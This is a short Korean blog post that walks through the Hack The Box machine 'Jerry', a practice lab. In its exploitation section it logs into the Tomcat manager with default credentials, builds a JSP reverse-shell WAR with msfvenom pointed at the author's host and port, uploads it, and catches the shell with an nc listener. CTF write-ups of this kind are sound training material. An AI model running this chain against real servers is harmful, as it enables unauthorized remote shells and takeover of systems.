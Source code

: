 ```yaml
---
date: '2023-03-20'
before : '2023-03-15'
after : '2023-03-20'
title: 'Hack The Box Machine : Jerry'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Jerry의 풀이'
thumbnail: '../contentImages/jerry/jerry.png'
---
```


<aside>
💡 노션으로 써본 첫 블로그 글!
</aside>

### 0. 시작하기 전에

![jerry.png](../contentImages/jerry/jerry.png)

오늘 풀어볼 문제는 HTB의 가장 기본적인 머신중 하나인 제리이다. 푸는데에는 30분이 채 안 걸렸지만, 엉뚱한곳에서 막혀서 살짝 헤메긴 했지만 별 문제없이 풀 수 있었다. 난이도는 아주 쉽다.

### 1. Information Gathering

![1.png](../contentImages/jerry/1.png)

딱 8080포트에 http proxy 하나 열려 있었다. 들어가보니 대충 이런 Tomcat 설명 페이지이다. 매니저 앱을 들어가려고 하니 로그인을 하라고 하고, 틀리니 에러 페이지가 떴다.

![4.png](../contentImages/jerry/4.png)

이 부분에서 한참 헤맸다… 분명 다시 로그인을 하라고 떠야하는데 안뜨길래 엥?? 뭐지? 로그인이 의미가 없는 부분인가? 다른곳에 뭐가 있나? 아닌것같은데..하고 생각하다가 아무리생각해도 이상해서 인터넷을 검색해보니 다른사람들은 잘만 여러번 로그인을 하고 있던 것이다. 당연하게도 아까 내가 로그인 데이터 저장을 누르는 바람에 쿠키에 남아있어서 그랬다. (…) 그래서 그냥 쿠키 지우고 여러가지 Tomcat 기본 크레덴셜로 로그인 시도를 하다보니 로그인이 됐다.

![3.png](../contentImages/jerry/3.png)

### 2. Initial Foothold/Exploitation

이번 문제는 딱히 Privilege Escalation이 필요하지 않았다. Reverse Shell을 얻어보니 그냥 root였다.

![5.png](../contentImages/jerry/5.png)

앱을 탐색하니 저렇게 war 파일을 업로드 할 수 있는 function이 있다. 빠르게 msfvenom으로 reverse shell을 만들어서 업로드해보자.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8000 -f war -o revshell.war
=> 이 쉘을 웹 사이트에 업로드
nc -lvnp 8000 : listening server 시작
```

이렇게 업로드를 해주고 /shell.war을 방문하면 당연히 war 코드가 실행될 것이고, payload에 적은 대로 내 컴퓨터 8000번 포트에 shell이 연결된걸 확인할 수 있었다.

```bash
C:\ > whoami
Administarator\Service
```

확인해보니 이미 root 계정이 되어있다. 이곳저곳 탐색해보니 root.txt와 user.txt를 확인할 수 있었다.

### 3. 후기

솔직히 진짜 쉬운 문제고, 빨리 풀면 10분이면 풀 것 같은데, 쿠키를 안 지워서 더 걸렸다는게 자존심 상한다… 결국 다른 사람이랑 비교해보고 알아챈것도 너무너무 자존심 상한다… 그래도 실전에서 이런 실수 안하는게 어디야. 쉬운 문제지만 또 하나 배웠다.

## Source

- Hack The Box 2023
- Me!
